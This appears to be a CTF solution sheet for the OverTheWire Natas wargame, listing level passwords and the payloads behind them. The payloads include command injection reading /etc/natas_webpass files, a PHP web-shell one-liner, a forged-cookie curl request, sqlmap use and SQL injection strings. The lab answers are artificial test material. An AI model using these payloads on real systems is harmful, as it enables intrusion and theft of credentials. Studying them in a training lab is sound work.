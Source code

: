 #### Level1
* gtVrDuiDfck831PqWsLEZy5gyDz1clto

#### Level2
* ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

#### Level3
* natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

#### Level4
* natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

#### Level5
* natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

#### Level6
* aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

#### Level7
* /etc/natas_webpass/natas8
* 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

#### Level8
* DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

#### Level9
* W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

#### Level10
* curl -X GET "http://127.0.0.1:8001/level9.php?needle=-A+1+level1"
* grep -P '\d{4}' file.txt
* grep -i ; cat /etc/natas_webpass/natas10 file.txt
* nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

#### Level11
* grep -i $ cat /etc/natas_webpass/natas11 dictionary.txt
* U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

#### Level12
* curl -u natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK -H "Cookie: data=ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK" -X GET "http://natas11.natas.labs.overthewire.org/"
* EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

#### Level13
> 	$s=$_REQUEST['simba']; system($s);
* jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

#### Level14
* cat /etc/natas_webpass/natas14
* Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

#### Level15
>	 sqlmap -r r.req -p password
*	 " or "1"="1
* AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

#### Level16
* payload natas16" union all SELECT 1,SLEEP(5);-- -



